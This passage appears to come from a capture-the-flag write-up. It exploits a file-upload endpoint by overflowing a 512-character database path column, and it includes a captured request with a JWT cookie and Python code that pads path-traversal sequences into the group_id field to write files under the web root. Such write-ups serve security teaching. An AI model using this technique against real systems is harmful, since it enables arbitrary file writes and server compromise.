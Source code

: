 ```
Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo5Mjg0NzY1OTMsInVzZXIiOiJhZG1pbjczMjEwMzQ3NDciLCJwYXNzIjoiYXNkIiwiZnVsbF9uYW1lIjoiV1B7UjAwdF9TbTF0aH0iLCJncm91cF9pZCI6IjkyODQ3NjU5MyIsInBlcm1pc3Npb25zIjp7InVwbG9hZCI6IjEiLCJsaXN0RmlsZXMiOiIxIiwiZGVsZXRlRmlsZXMiOiIxIiwibGlzdFVzZXJzIjoiMSIsImRvd25sb2FkIjoiMSJ9fQ.uUmYA5y7PMbl3EFMVahlT3A4hsHhi62E-Ef6zIA9BiI

-----------------------------31269189394158100819104461333
Content-Disposition: form-data; name="file"; filename="test.png"
Content-Type: image/png

[FILE DATA]

-----------------------------31269189394158100819104461333
Content-Disposition: form-data; name="group_id"

928476593
-----------------------------31269189394158100819104461333--
```

This is the response the server gives when we upload files

```json
{
  "success": true,
  "file": {
    "id": null,
    "name": "test.png",
    "size": 46507,
    "path": "928476593/test.png",
    "user_id": 928476593,
    "group_id": "928476593"
  }
}
```

As an attacker we can control the `filename` and the `group_id` . This is how the file upload could be implemented:

```
1. Check if path(=group_id+"/"+file_name) is user writable
2. Save path in database
```

The second part is what introduces the vulnerability because of the sql mode used, if we exceed the column size in the database the path gets truncated. Here it becomes useful knowing at what character the database starts truncating, and from the previous query we know that the `CHARACTER_MAXIMUM_LENGTH` of the path column in the files table is 512.

```python
# Add this in the Challenge class
def write_file(self, path):
    name = secrets.token_hex(16)
    max = 512
    base_a = "a/../"
    back = "../../../../../.."
    pad = base_a * ((max - len(path) - len(back)) // 5 - 1)
    pad += "A" * ((max - len(path) - len(back)) % 5) + base_a

    c_path = pad + back + path
    # add writable path to bypass security check
    full_path = f"{c_path}../../../../../../../var/www/html/uploads/13455/prova"


    response = self.s.post(
        _(path="/api/fileupload.php"),
        files={"file": (name, open("test.png", "rb"))},
        data={"group_id": full_path},
    )
```
